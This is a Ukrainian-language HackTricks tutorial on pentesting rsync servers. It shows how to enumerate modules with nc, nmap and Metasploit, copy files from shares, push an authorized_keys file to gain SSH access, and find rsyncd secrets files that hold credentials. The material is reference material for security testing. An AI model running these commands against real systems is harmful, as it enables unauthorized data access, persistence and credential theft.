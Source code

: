 # 873 - Pentesting Rsync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Основна інформація**

З [вікіпедії](https://en.wikipedia.org/wiki/Rsync):

> **rsync** - це утиліта для ефективного [перенесення](https://en.wikipedia.org/wiki/File_transfer) та [синхронізації](https://en.wikipedia.org/wiki/File_synchronization) [файлів](https://en.wikipedia.org/wiki/Computer_file) між комп'ютером та зовнішнім жорстким диском, а також між [мережевими](https://en.wikipedia.org/wiki/Computer_network) [комп'ютерами](https://en.wikipedia.org/wiki/Computer) шляхом порівняння [часів модифікації](https://en.wikipedia.org/wiki/Timestamping_\(computing\)) та розмірів файлів.[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) Він зазвичай зустрічається на [Unix-подібних](https://en.wikipedia.org/wiki/Unix-like) [операційних системах](https://en.wikipedia.org/wiki/Operating_system). Алгоритм rsync є типом [delta encoding](https://en.wikipedia.org/wiki/Delta_encoding) і використовується для мінімізації використання мережі. [Zlib](https://en.wikipedia.org/wiki/Zlib) може використовуватися для додаткової [компресії даних](https://en.wikipedia.org/wiki/Data_compression),[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) а [SSH](https://en.wikipedia.org/wiki/Secure_Shell) або [stunnel](https://en.wikipedia.org/wiki/Stunnel) можуть використовуватися для безпеки.

**Порт за замовчуванням:** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
## Перерахунок

### Банер та ручна комунікація
```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy
NAS_Public
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **Перерахування спільних папок**

**Rsync модулі** визнаються як **папки спільного доступу**, які можуть бути **захищені паролями**. Щоб визначити доступні модулі та перевірити, чи потрібні паролі, використовуються такі команди:
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
Будьте обережні, що деякі спільні ресурси можуть не з'явитися в списку, можливо, їх приховано. Крім того, доступ до деяких спільних ресурсів може бути обмежений конкретними **обліковими даними**, що вказується повідомленням **"Доступ заборонено"**.

### [**Brute Force**](../generic-hacking/brute-force.md#rsync)

### Ручне використання Rsync

Після отримання **списку модулів** дії залежать від того, чи потрібна аутентифікація. Без аутентифікації **перелік** і **копіювання** файлів з загальної папки до локального каталогу здійснюється через:
```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
Цей процес **рекурсивно передає файли**, зберігаючи їх атрибути та дозволи.

З **обліковими даними** перелік і завантаження з загальної папки можна виконати наступним чином, де з'явиться запит на введення пароля:
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
Щоб **завантажити вміст**, наприклад, файл _**authorized\_keys**_ для доступу, використовуйте:
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

Щоб знайти файл конфігурації rsyncd, виконайте:
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
У цьому файлі параметр _secrets file_ може вказувати на файл, що містить **імена користувачів та паролі** для аутентифікації rsyncd.

## Посилання

* [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
